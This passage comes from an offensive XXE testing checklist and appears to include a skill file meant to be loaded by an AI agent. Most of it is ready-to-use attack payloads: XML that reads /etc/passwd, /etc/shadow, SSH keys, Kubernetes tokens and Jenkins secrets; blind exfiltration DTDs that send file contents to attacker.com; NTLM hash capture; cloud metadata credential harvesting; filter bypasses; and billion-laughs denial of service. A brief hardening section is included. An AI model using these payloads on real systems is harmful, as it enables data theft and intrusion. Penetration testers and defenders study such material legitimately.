</definitions>
```

### 4.6 SAML Authentication
SAML assertions are XML documents processed by identity providers/service providers.

**SAML XXE Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<saml:Assertion ...>
  <saml:Subject>
    <saml:NameID>&xxe;</saml:NameID>
  </saml:Subject>
</saml:Assertion>
```

**Target:** Look for SAML SSO endpoints, SAML metadata parsers, and SAML response validators.

---

### 5.1 Encoding & Obfuscation
Bypass input filters and WAFs using XML encoding features.

**UTF-7 Encoding (Legacy IE/XML Parsers):**
```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADw-!DOCTYPE foo+AD4-
+ADw-!ENTITY xxe SYSTEM +ACI-file:///etc/passwd+ACI-+AD4-
+ADw-foo+AD4-&xxe;+ADw-/foo+AD4-
```

**ISO-8859-1 / Windows-1252:**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
```

**HTML Entities in DTD:**
```xml
<!ENTITY xxe SYSTEM "file&#58;&#47;&#47;&#47;etc&#47;passwd">
```

**Mixed Case & Whitespace:**
XML is case-sensitive but DTD parsing allows whitespace variations:
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```
vs
```xml
<!DOCTYPE foo [
  <!ENTITY
    xxe
    SYSTEM
    "file:///etc/passwd"
  >
]>
```

### 5.2 DTD Bypass Techniques
When `DOCTYPE` is blocked but entity processing remains.

**Internal Entity Only:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe "test">
]>
<foo>&xxe;</foo>
```
- Confirms entity processing without external resolution

**Using Existing DTDs (Local DTD Hijacking):**
When external connections are blocked but internal DTDs exist (common in Java):

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
  <!ENTITY % expr 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ENTITY aaa "bbb"'>
  %local_dtd;
]>
<foo></foo>
```

**Execution:** The parser loads the local DTD, your injected parameter entity redefines an existing entity in that DTD, and the error-based exfiltration triggers.

**Known Local DTDs by Platform:**
- **Linux/Java:** `/usr/share/xml/fontconfig/fonts.dtd`, `/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd`
- **macOS:** `/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/DictionaryServices.framework/Versions/A/Resources/AppleDictionarySchema.dtd`
- **Windows:** `file:///C:/Windows/system32/wbem/xml/wmi20.dtd`

### 5.3 Protocol Bypasses
When `file://` is blocked but other protocols work.

**PHP Wrappers:**
```xml
<!ENTITY xxe SYSTEM "php://filter/read=string.rot13/resource=/etc/passwd">
<!ENTITY xxe SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd">
<!ENTITY xxe SYSTEM "data://text/plain;base64,SGVsbG8gV29ybGQ=">
```

**Java-Specific:**
```xml
<!ENTITY xxe SYSTEM "jar:file:///etc/passwd!/test.txt">  <!-- May work in some contexts -->
<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">
<!ENTITY xxe SYSTEM "classpath:///com/example/config.properties">
```

**Windows UNC Paths:**
```xml
<!ENTITY xxe SYSTEM "\\attacker.com\share\test">
<!ENTITY xxe SYSTEM "file://attacker.com/share/test">
```
- Forces NTLM authentication hash disclosure to attacker SMB server

### 5.4 Recursive Entity Expansion (Billion Laughs)
While primarily a DoS vector, can be used for detection:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
- If the parser hangs or throws memory errors, DTD processing is enabled

### 5.5 Content-Type Switching & Format Confusion
Test endpoints that normally accept JSON by switching to XML:

```http
POST /api/login HTTP/1.1
Host: target.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<login>
  <username>&xxe;</username>
  <password>test</password>
</login>
```

**Alternative Content-Types to Test:**
- `application/xml`
- `text/xml`
- `application/soap+xml`
- `application/xhtml+xml`
- `application/atom+xml`

### 5.6 XML Bomb + XXE Hybrid
Combine DoS detection with XXE to confirm parser capabilities without waiting for OOB callbacks:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY a0 "dos" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <test>&a2;</test>
  <test2>&xxe;</test2>
</data>
```

---

### 6.1 Internal Network Mapping
Use the XXE as an SSRF pivot to map the internal network:

```xml
<!ENTITY xxe SYSTEM "http://192.168.1.1/">
<!ENTITY xxe SYSTEM "http://192.168.1.2/">
<!ENTITY xxe SYSTEM "http://10.0.0.1:8080/">
```

**Automation:** Create a list of common internal IPs and ports, use parameter entities to iterate (or use blind OOB with unique subdomains per target).

### 6.2 Cloud Credential Harvesting
Target cloud metadata services for IAM credentials:

**AWS IMDSv1 (if enabled):**
```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

**AWS IMDSv2 (token required):**
IMDSv2 is generally safe from simple XXE because it requires a PUT request for the token, but test for SSRF chaining if the application makes subsequent requests.

### 6.3 Source Code Disclosure
Read application source to find additional vulnerabilities:

**Java:**
```xml
<!ENTITY xxe SYSTEM "file:///opt/tomcat/webapps/ROOT/WEB-INF/classes/com/example/AdminController.class">
<!ENTITY xxe SYSTEM "jar:file:///opt/tomcat/webapps/ROOT/WEB-INF/lib/application.jar!/BOOT-INF/classes/application.properties">
```

**PHP:**
```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">
```

**.NET:**
```xml
<!ENTITY xxe SYSTEM "file:///C:/inetpub/wwwroot/bin/Application.dll">
<!ENTITY xxe SYSTEM "file:///C:/inetpub/wwwroot/appsettings.json">
```

### 6.4 NTLM Hash Capture (Windows Environments)
Force Windows parser to authenticate to attacker SMB server:

```xml
<!ENTITY xxe SYSTEM "\\attacker.com\share">
<!ENTITY xxe SYSTEM "file://attacker.com/share">
```

**Setup:** Use `Responder.py`, `impacket-smbserver`, or `ntlmrelayx` to capture hashes.

### 6.5 XSLT Injection Chaining
If the XML is transformed via XSLT, XXE may lead to XSLT injection:

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="http://attacker.com/malicious.xsl"?>
<foo></foo>
```

**malicious.xsl:**
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="php:function('system','id')"/>
  </xsl:template>
</xsl:stylesheet>
```

---

### 7.1 Secure Configuration Checklist
Verify the following mitigations are properly implemented:

**Disable External Entities:**
- **Java:** `DocumentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` or `setFeature("http://xml.org/sax/features/external-general-entities", false)` + `external-parameter-entities`
- **PHP:** `libxml_disable_entity_loader(true)` (PHP < 8.0); in PHP 8.0+ libxml2 2.9.0+ disables by default
- **.NET:** `XmlReaderSettings.DtdProcessing = DtdProcessing.Prohibit` or `DtdProcessing.Ignore`
- **Python/lxml:** `lxml.etree.parse(source, forbid_entities=True, forbid_external=True)`
- **Ruby/Nokogiri:** `Nokogiri::XML::ParseOptions::NOENT` and `NONET` flags

**Disable XInclude:**
- **libxml2:** `XML_PARSE_NOXINCNODE` flag
- **Java:** Ensure XInclude processing is not enabled via `setXIncludeAware(true)`

**Input Validation:**
- Reject `DOCTYPE` declarations entirely if XML is not strictly required
- Use JSON instead of XML for data interchange where possible
- Implement strict allowlists for expected XML structure

### 7.2 Verification Payloads
Test that mitigations are effective:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/verify">
]>
<foo>&xxe;</foo>
```
- No OOB callback = external entities blocked

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="http://attacker.com/verify"/>
</foo>
```
- No OOB callback = XInclude disabled

### 7.3 Regression Testing
After reported fixes, verify:
- File disclosure on all previously vulnerable endpoints
- Blind XXE via OOB on all parsers
- XInclude on upload points
- Content-Type switching still rejected or safely parsed
- Office document processing sanitized or DTD-disabled

---

### A.1 In-Band File Read
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

### A.2 Blind OOB (Base64)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/exfil.dtd">%xxe;]>
<foo/>
```

**exfil.dtd:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?d=%file;'>">
%eval;
%exfil;
```

### A.3 Error-Based
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">%eval;%error;]>
<foo/>
```

### A.4 XInclude
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="file:///etc/passwd" parse="text"/></foo>
```

### A.5 SVG Upload
```xml
<?xml version="1.0"?><!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><svg xmlns="http://www.w3.org/2000/svg"><text>&xxe;</text></svg>
```

---

## Appendix B: Testing Checklist

- [ ] Identify all XML ingestion points (APIs, uploads, SOAP, SAML, RSS)
- [ ] Fingerprint backend XML parser and version
- [ ] Test for in-band file disclosure (`file:///etc/passwd`, `file:///C:/windows/win.ini`)
- [ ] Test for SSRF via entity resolution (cloud metadata, internal services)
- [ ] Test for blind XXE with OOB exfiltration (parameter entities + attacker DTD)
- [ ] Test for error-based exfiltration (local DTD hijacking if OOB blocked)
- [ ] Test XInclude when DTD is disabled
- [ ] Test SVG upload points with XXE payloads
- [ ] Test Office document upload/processing with injected XML
- [ ] Test Content-Type switching from JSON to XML
- [ ] Test for RCE vectors (`expect://`, `jar://`, XSLT chaining)
- [ ] Test for NTLM hash capture in Windows environments
- [ ] Verify WAF/filter bypass using encoding and obfuscation
- [ ] Verify local DTD hijacking when external connections are blocked
- [ ] Document all findings with specific payloads, endpoints, and impact
- [ ] Provide remediation guidance with secure parser configuration examples

---

## Appendix C: Common Vulnerable Libraries & Frameworks

| Technology | Library/Class | Default Behavior | Secure Configuration |
|------------|---------------|------------------|----------------------|
| Java | `DocumentBuilderFactory` | External entities enabled | `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` |
| Java | `SAXParserFactory` | External entities enabled | Same as above |
| Java | `XMLReader` | External entities enabled | `setFeature("http://xml.org/sax/features/external-general-entities", false)` |
| Java | `TransformerFactory` | XSLT may enable XXE | `setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "")` |
| PHP | `DOMDocument` | libxml2 dependent | `libxml_disable_entity_loader(true)` (legacy) |
| PHP | `simplexml_load_string()` | libxml2 dependent | Use `LIBXML_NONET` and `LIBXML_NOENT` carefully |
| .NET | `XmlDocument` | DTD processing enabled | `XmlReaderSettings.DtdProcessing = DtdProcessing.Prohibit` |
| .NET | `XmlReader` | DTD processing enabled | `XmlReaderSettings.DtdProcessing = DtdProcessing.Ignore` |
| Python | `lxml.etree` | External entities enabled | `resolve_entities=False`, `no_network=True` |
| Python | `xml.etree.ElementTree` | Safe (no external entities) | Default is safe |
| Ruby | `Nokogiri::XML` | External entities enabled | `Nokogiri::XML::ParseOptions::NONET` |

---

## Appendix D: Tools & Infrastructure

**Required Infrastructure:**
- Burp Suite Professional with Collaborator (for OOB detection)
- Interactsh (OOB callback server)
- Custom HTTP/FTP/DNS server for exfiltration
- `Responder.py` for NTLM hash capture
- `impacket-smbserver` for SMB hash capture

**Useful Commands:**
```bash

# DNS server for data exfiltration
dnsmasq --no-daemon --log-queries --listen-address=0.0.0.0


## SOURCE: offensive-skills/offensive-xxe/SKILL.md

## Metadata
- **Skill Name**: xxe
- **Folder**: offensive-xxe
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/xxe.md

## Description
XML External Entity injection testing checklist: classic XXE, blind XXE (out-of-band), XXE via file upload (SVG/docx), XXE in SOAP/REST, error-based XXE, XInclude attacks, and XXE filter bypass. Use for web app XXE testing and bug bounty.

## Trigger Phrases
Use this skill when the conversation involves any of:
`XXE, XML external entity, blind XXE, out-of-band XXE, XXE file upload, SVG XXE, SOAP XXE, XInclude, entity bypass, XXE SSRF, XXE file read`

## Shortcut

- Find data entry points that you can use to submit XML data.
- Determine whether the entry point is a candidate for a classic or blind XXE. The endpoint might be vulnerable to classic XXE if it returns the parsed XML data in the HTTP response. If the endpoint does not return results, it might still be vulnerable to blind XXE, and you should set up a callback listener for your tests.
- Try out a few test payloads to see if the parser is improperly configured. In the case of classic XXE, you can check whether the parser is processing external entities. In the case of blind XXE, you can make the server send requests to your callback listener to see if you can trigger outbound interaction.
- Try to exfiltrate a common system file, like /etc/hostname.
- You can also try to retrieve some more sensitive system files, like /etc/shadow or ~/.bash_history.
- If you cannot exfiltrate the entire file with a simple XXE payload, try to use an alternative data exfiltration method.
- See if you can launch an SSRF attack using the XXE.

## Mechanisms

XML External Entity (XXE) is a vulnerability that occurs when XML parsers process external entity references within XML documents. XXE attacks target applications that parse XML input and can lead to:

- Disclosure of confidential files and data
- Server-side request forgery (SSRF)
- Denial of service attacks
- Remote code execution in some cases



XXE vulnerabilities arise from XML's Document Type Definition (DTD) feature, which allows defining entities that can reference external resources. When a vulnerable XML parser processes these entities, it retrieves and includes the external resources, potentially exposing sensitive information.

In practice, full remote code execution rarely stems from XXE alone; it typically requires language-specific gadgets—such as PHP's `expect://` wrapper or Java deserialization sinks—which XXE merely helps reach.



Types of XXE attacks include:

- **Classic XXE**: Direct extraction of data visible in responses
- **Blind XXE**: No direct output, but data can be exfiltrated through out-of-band techniques
- **Error-based XXE**: Leveraging error messages to extract data
- **XInclude-based XXE**: Using XInclude when direct DTD access is restricted



#### Additional Discovery Methods

- Convert content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml"
- Check file uploads that allow docx/xlsx/pdf/zip - unzip the package and add XML code into the XML files
- Test SVG file uploads for XML injection
- Check RSS feeds functionality for XML injection
- Fuzz for /soap API endpoints
- Test SSO integration points for XML injection in SAML requests/responses

#### Identify XML Injection Points



- **API Endpoints**: Look for endpoints accepting XML data
- **File Uploads**: Features accepting XML-based files (DOCX, SVG, XML, etc.)
- **Format Conversion**: Services converting to/from XML formats
- **Legacy Interfaces**: SOAP web services, XML-RPC
- **Hidden XML Parsers**: Look for parameters that might be processed as XML behind the scenes
- **Content Type Conversion**: Endpoints that accept JSON but may process XML with proper Content-Type

#### Test Basic XXE Patterns

For each potential injection point, test with simple payloads:

- **Classic XXE (file retrieval)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```

  or

  ```xml
  <!DOCTYPE ase [ <!ENTITY %test SYSTEM "http://sib.com/sib"> %test; ]>
  <example>&test;</example>
  ```

- **Blind XXE (out-of-band detection)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
    %xxe;
  ]>
  <root>test</root>
  ```

- **XInclude attack** (when unable to define a DTD):
  ```xml
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </root>
  ```

#### Billion Laughs Attack Steps

1. Capture the request in your proxy tool
2. Send it to repeater and convert body to XML format
3. Check the Accept header and modify to Application/xml if needed
4. Convert JSON to XML if no direct XML input is possible
5. Insert the billion laughs payload between XML tags
6. Adjust entity references (lol1 to lol9) to control DoS intensity

#### Check Alternative XML Formats

- **SVG files**:

  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname" >
  ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```

  or

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
    <!ENTITY test SYSTEM "file:///etc/shadow">
  ]>
  <svg width="500" height="500">
    <circle cx="50" cy="50" r="40" fill="blue" />
    <text font-size="16" x="0" y="16">&test;</text>
  </svg>
  ```

- **DOCX/XLSX files**: Modify internal XML files (e.g., word/document.xml)
- **SOAP messages**: Test XXE in SOAP envelope

#### SAML 2.0 XXE Testing

SAML assertions are prime XXE targets. Test both requests and responses:

**AuthnRequest XXE:**

```xml
<samlp:AuthnRequest
  xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
  xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
  ID="_xxe" Version="2.0" IssueInstant="2025-01-01T00:00:00Z">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <saml:Issuer>&xxe;</saml:Issuer>
</samlp:AuthnRequest>
```

**Response Assertion XXE:**

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil">]>
  <saml:Assertion>
    <saml:AttributeValue>&xxe;</saml:AttributeValue>
  </saml:Assertion>
</samlp:Response>
```

**Encrypted Assertion XXE (Response Wrapping):**

```xml
<!-- Inject XXE before encryption, Service Provider decrypts and processes -->
<saml:EncryptedAssertion>
  <!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"> %dtd;]>
  <EncryptedData>...</EncryptedData>
</saml:EncryptedAssertion>
```

#### E-book Format Exploitation (EPUB)

EPUB files are ZIP archives containing XML. Target library management systems and e-reader apps:

```xml
<!-- content.opf inside EPUB -->
<?xml version="1.0"?>
<!DOCTYPE package [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<package xmlns="http://www.idpf.org/2007/opf" version="3.0">
  <metadata>
    <dc:title>&xxe;</dc:title>
  </metadata>
</package>
```

**Attack workflow:**

1. Create legitimate EPUB file
2. Extract contents (it's a ZIP)
3. Inject XXE into `META-INF/container.xml` or `content.opf`
4. Re-zip and upload to target (library systems, e-commerce platforms)

#### Apple Universal Links XXE

iOS deep linking configuration files:

```xml
<!-- apple-app-site-association generated from XML -->
<?xml version="1.0"?>
<!DOCTYPE config [
  <!ENTITY xxe SYSTEM "file:///var/mobile/Containers/Data/Application/config.plist">
]>
<config>
  <applinks>&xxe;</applinks>
</config>
```

#### Parameter Entity Testing

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<data>test</data>
```

#### Error-Based XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

#### XXE via Content-Type Manipulation

Try changing Content-Type header from:

```
Content-Type: application/json
```

to:

```
Content-Type: application/xml
```

or:

```
Content-Type: text/xml
```

#### Kubernetes Admission Webhook XXE

ValidatingWebhookConfiguration and MutatingWebhookConfiguration receive XML-formatted requests:

```yaml

# Vulnerable admission webhook
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  annotations:
    # Webhook receives and parses this XML
    config: |
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///var/run/secrets/kubernetes.io/serviceaccount/token">
      ]>
      <config>&xxe;</config>
```

**Exploitation flow:**

```bash

# 4. Use token for privilege escalation
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat token)"
```

**ConfigMap XXE:**

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: xxe-config
data:
  config.xml: |
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/kubernetes/manifests/kube-apiserver.yaml">]>
    <config>&xxe;</config>
```

#### CI/CD Pipeline XXE

**Jenkins XML Config Parsing:**

```xml
<!-- config.xml for Jenkins job -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "file:///var/jenkins_home/secrets/master.key">
]>
<project>
  <description>&xxe;</description>
</project>
```

**GitLab CI Artifact Processing:**

```yaml

# .gitlab-ci.yml
test:
  script:
    - echo '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/gitlab-runner/config.toml">]><root>&xxe;</root>' > report.xml
  artifacts:
    reports:
      junit: report.xml # Parsed by GitLab
```

**GitHub Actions Workflow:**

```yaml

# Vulnerable action that processes XML artifacts
- name: Parse XML Report
  uses: vulnerable/xml-parser@v1
  with:
    xml-file: |
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///home/runner/.ssh/id_rsa">]>
      <testsuites>&xxe;</testsuites>
```

**Maven/Gradle Dependency Confusion:**

```xml
<!-- malicious pom.xml in supply chain -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=">
]>
<project>
  <modelVersion>4.0.0</modelVersion>
  <name>&xxe;</name>
</project>
```

### Parser Misconfigurations

- **DTD Processing Enabled**: XML parsers with DTD processing enabled
- **External Entity Resolution**: Parsers allowing external entity references
- **XInclude Support**: Enabled processing of XInclude statements
- **Missing Entity Validation**: No validation of entity expansion

### File Disclosure via XXE

- **Local File Access**: Reading sensitive system files
  - `/etc/passwd` (Unix user information)
  - `/etc/shadow` (password hashes on Linux)
  - `C:\Windows\system32\drivers\etc\hosts` (Windows hosts file)
  - Application configuration files
  - Source code files
  - Database credentials

### SSRF via XXE



- **Internal Network Access**: Scanning internal systems
- **Cloud Metadata Access**: Accessing metadata services

  **AWS IMDSv2** (Token-based, harder via XXE):

  ```xml
  <!-- IMDSv1 still works in legacy environments -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name">]>

  <!-- IMDSv2 requires PUT request for token first -->
  <!-- Most XML parsers can't make PUT requests, limiting XXE exploitation -->
  ```

  **Azure Instance Metadata**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">]>
  <!-- Requires Metadata: true header, may fail in XXE -->
  ```

  **GCP Metadata v2 (2024+)**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token">]>
  <!-- Now requires Metadata-Flavor: Google header -->
  <!-- Classic XXE can't set custom headers, use SSRF chain -->
  ```

  **Workarounds for header-protected metadata:**

  ```xml
  <!-- Use jar:// protocol (Java) to bypass some restrictions -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://metadata.google.internal!/computeMetadata/v1/instance/hostname">]>

  <!-- Or chain with open redirect on same domain -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://vulnerable-app.com/redirect?url=http://169.254.169.254/latest/meta-data/">]>
  ```

### Denial of Service

- **Billion Laughs Attack**: Exponential entity expansion

  ```xml
  <!DOCTYPE data [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ]>
  <data>&lol3;</data>
  ```

- **Quadratic Blowup Attack**: Large string repeating

  ```xml
  <!DOCTYPE data [
    <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
  ]>
  <data>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</data>
  ```

- **External Resource DoS**: Loading large or never-ending external resources

### Filter Evasion Techniques

- **Case Variation**:

  ```xml
  <!docTypE test [ <!ENTity xxe SYSTEM "file:///etc/passwd"> ]>
  ```

- **Alternative Protocol Schemes**:

  ```
  file:///
  php://filter/convert.base64-encode/resource=
  gopher://
  jar://
  netdoc://
  ```

- **URL Encoding**:
  ```xml
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:%2F%2F%2Fetc%2Fpasswd"> ]>
  ```

### XXE in CDATA Sections

```xml
<![CDATA[<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
]>]]>
```

### XXE via XML Namespace

```xml
<ns1:root xmlns:ns1="http://example.com">
  <ns1:data xmlns:ns1="http://example.com" xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </ns1:data>
</ns1:root>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

#### XXE Detection and Exploitation Tools

- **OWASP ZAP**: XML External Entity scanner
- **Burp Suite Pro**: XXE scanner extension
- **XXEinjector**: Automated XXE testing tool
- **XXE-FTP**: Out-of-band XXE exploitation framework
- **dtd.gen**: DTD generator for XXE exfiltration
- **oxml_sec**: Tool for testing XXE in OOXML files (docx, xlsx, pptx)
- **Burp Suite Pro 2025.2+ (“Burp AI”)**: automatically chains scanner-found XXE with out-of-band callbacks for quicker triage.
- **Semgrep rules (java-xxe, python-xxe)**: static analysis that flags un-hardened XML parser usage.

#### Setup Tools for Out-of-Band Testing

- **Interactsh**: Interaction collection server
- **Burp Collaborator**: For out-of-band data detection
- **XSS Hunter**: Can be repurposed for XXE callbacks
- **SimpleHTTPServer**: Quick Python HTTP server setup

### Testing Methodologies



#### Basic Testing Process

1. **Identify XML Processing**: Locate endpoints accepting XML input
2. **Setup Monitoring**: Prepare out-of-band detection for blind XXE
3. **Injection Testing**: Test with basic XXE payloads
4. **Result Analysis**: Check for direct data exposure or callbacks
5. **Vulnerability Confirmation**: Attempt to read a harmless file like `/etc/hostname`

#### Advanced Exploitation Techniques

##### Data Exfiltration (for Blind XXE)



1. Host a malicious DTD file on your server:

   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
   %exfil;
   ```

2. Use an XXE payload that references your DTD:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [
     <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
     %dtd;
   ]>
   <data>test</data>
   ```

##### XXE OOB with DTD and PHP filter

Payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://your-attacker-server.com/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External DTD (`http://your-attacker-server.com/dtd.xml`):

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://your-attacker-server.com/log.php?data=%data;'>">
```

##### Error-Based Exfiltration

